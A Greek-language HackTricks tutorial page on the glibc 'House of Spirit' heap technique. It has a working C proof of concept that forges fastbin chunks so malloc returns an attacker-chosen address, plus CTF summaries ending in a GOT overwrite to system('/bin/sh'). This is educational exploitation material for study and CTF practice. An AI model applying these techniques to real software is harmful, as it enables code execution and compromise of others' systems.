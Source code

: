# Σπίτι του Πνεύματος

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs** στα αποθετήρια [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Βασικές Πληροφορίες

### Κώδικας

<details>

<summary>Σπίτι του Πνεύματος</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Code altered to add som prints from: https://heap-exploitation.dhavalkapil.com/attacks/house_of_spirit

struct fast_chunk {
size_t prev_size;
size_t size;
struct fast_chunk *fd;
struct fast_chunk *bk;
char buf[0x20];               // chunk falls in fastbin size range
};

int main() {
struct fast_chunk fake_chunks[2];   // Two chunks in consecutive memory
void *ptr, *victim;

ptr = malloc(0x30);

printf("Original alloc address: %p\n", ptr);
printf("Main fake chunk:%p\n", &fake_chunks[0]);
printf("Second fake chunk for size: %p\n", &fake_chunks[1]);

// Passes size check of "free(): invalid size"
fake_chunks[0].size = sizeof(struct fast_chunk);

// Passes "free(): invalid next size (fast)"
fake_chunks[1].size = sizeof(struct fast_chunk);

// Attacker overwrites a pointer that is about to be 'freed'
// Point to .fd as it's the start of the content of the chunk
ptr = (void *)&fake_chunks[0].fd;

free(ptr);

victim = malloc(0x30);
printf("Victim: %p\n", victim);

return 0;
}
```
</details>

### Στόχος

* Να είναι δυνατή η προσθήκη μιας διεύθυνσης στο tcache / fast bin ώστε αργότερα να είναι δυνατή η εκχώρησή της

### Απαιτήσεις

* Αυτή η επίθεση απαιτεί από τον εισβολέα να μπορεί να δημιουργήσει μερικά ψεύτικα γρήγορα τμήματα (fast chunks) που υποδεικνύουν σωστά την τιμή του μεγέθους τους και στη συνέχεια να μπορεί να ελευθερώσει το πρώτο ψεύτικο τμήμα ώστε να μπει στο bin.

### Επίθεση

* Δημιουργήστε ψεύτικα τμήματα που παρακάμπτουν τους ελέγχους ασφαλείας: θα χρειαστείτε 2 ψεύτικα τμήματα που υποδεικνύουν στις σωστές θέσεις τις σωστές τιμές μεγέθους
* Κάπως διαχειριστείτε να ελευθερώσετε το πρώτο ψεύτικο τμήμα ώστε να μπει στο γρήγορο ή tcache bin και στη συνέχεια να το εκχωρήσετε για να αντικαταστήσετε αυτήν τη διεύθυνση

**Ο κώδικας από τον** [**guyinatuxedo**](https://guyinatuxedo.github.io/39-house\_of\_spirit/house\_spirit\_exp/index.html) **είναι εξαιρετικός για να κατανοήσετε την επίθεση.** Παρόλο που αυτό το σχήμα από τον κώδικα το περιλαμβάνει αρκετά καλά:
```c
/*
this will be the structure of our two fake chunks:
assuming that you compiled it for x64

+-------+---------------------+------+
| 0x00: | Chunk # 0 prev size | 0x00 |
+-------+---------------------+------+
| 0x08: | Chunk # 0 size      | 0x60 |
+-------+---------------------+------+
| 0x10: | Chunk # 0 content   | 0x00 |
+-------+---------------------+------+
| 0x60: | Chunk # 1 prev size | 0x00 |
+-------+---------------------+------+
| 0x68: | Chunk # 1 size      | 0x40 |
+-------+---------------------+------+
| 0x70: | Chunk # 1 content   | 0x00 |
+-------+---------------------+------+

for what we are doing the prev size values don't matter too much
the important thing is the size values of the heap headers for our fake chunks
*/
```
{% hint style="info" %}
Σημειώστε ότι είναι απαραίτητο να δημιουργήσετε το δεύτερο κομμάτι προκειμένου να παρακάμψετε μερικούς ελέγχους ακεραιότητας.
{% endhint %}

## Παραδείγματα

* **CTF** [**https://guyinatuxedo.github.io/39-house\_of\_spirit/hacklu14\_oreo/index.html**](https://guyinatuxedo.github.io/39-house\_of\_spirit/hacklu14\_oreo/index.html)
* **Διαρροή πληροφοριών Libc**: Μέσω ενός υπερχείλισης είναι δυνατή η αλλαγή ενός δείκτη ώστε να δείχνει σε μια διεύθυνση GOT προκειμένου να διαρρεύσει μια διεύθυνση Libc μέσω της ενέργειας ανάγνωσης του CTF
* **House of Spirit**: Εκμεταλλευόμενοι ένα μετρητή που μετρά τον αριθμό των "ριφλετών" είναι δυνατόν να δημιουργηθεί μια ψεύτικη μέγεθος του πρώτου ψεύτικου κομματιού, στη συνέχεια εκμεταλλευόμενοι ένα "μήνυμα" είναι δυνατόν να ψεύτικο το δεύτερο μέγεθος ενός κομματιού και τελικά εκμεταλλευόμενοι ένα υπερχείλιση είναι δυνατόν να αλλάξετε ένα δείκτη που θα απελευθερωθεί έτσι ώστε το πρώτο ψεύτικο κομμάτι μας να απελευθερωθεί. Στη συνέχεια, μπορούμε να το εκχωρήσουμε και μέσα σε αυτό θα υπάρχει η διεύθυνση όπου αποθηκεύεται το "μήνυμα". Στη συνέχεια, είναι δυνατόν να κάνουμε αυτό να δείχνει στην είσοδο `scanf` μέσα στον πίνακα GOT, έτσι ώστε να το αντικαταστήσουμε με τη διεύθυνση προς το σύστημα.\
Την επόμενη φορά που καλείται το `scanf`, μπορούμε να στείλουμε την είσοδο `"/bin/sh"` και να λάβουμε ένα κέλυφος.

* [**Gloater. HTB Cyber Apocalypse CTF 2024**](https://7rocky.github.io/en/ctf/other/htb-cyber-apocalypse/gloater/)
* **Διαρροή Glibc**: Μη αρχικοποιημένος buffer στο stack.
* **House of Spirit**: Μπορούμε να τροποποιήσουμε τον πρώτο δείκτη ενός παγκόσμιου πίνακα δεικτών στο σωρό. Με την τροποποίηση ενός μόνο byte, χρησιμοποιούμε το `free` σε ένα ψεύτικο κομμάτι μέσα σε ένα έγκυρο κομμάτι, ώστε να έχουμε μια κατάσταση επικάλυψης κομματιών μετά την επανάθεση. Με αυτό, μια απλή επίθεση δηλητηρίασης Tcache λειτουργεί για να λάβει ένα αυθαίρετο γραπτό πρωτότυπο.

## Αναφορές

* [https://heap-exploitation.dhavalkapil.com/attacks/house\_of\_spirit](https://heap-exploitation.dhavalkapil.com/attacks/house\_of\_spirit)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγράφου**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα χάκινγκ υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
{% endhint %}
